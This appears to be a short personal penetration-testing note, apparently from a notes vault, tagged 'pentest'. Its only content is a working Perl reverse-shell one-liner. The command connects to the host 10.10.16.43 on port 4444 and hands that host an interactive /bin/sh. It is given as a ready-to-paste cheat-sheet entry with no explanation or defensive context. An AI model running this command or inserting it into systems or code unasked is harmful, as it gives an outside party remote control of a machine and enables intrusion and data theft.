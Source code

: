 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

perl

Reverse Shell

~~~perl
perl -e 'use Socket;$i="10.10.16.43";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
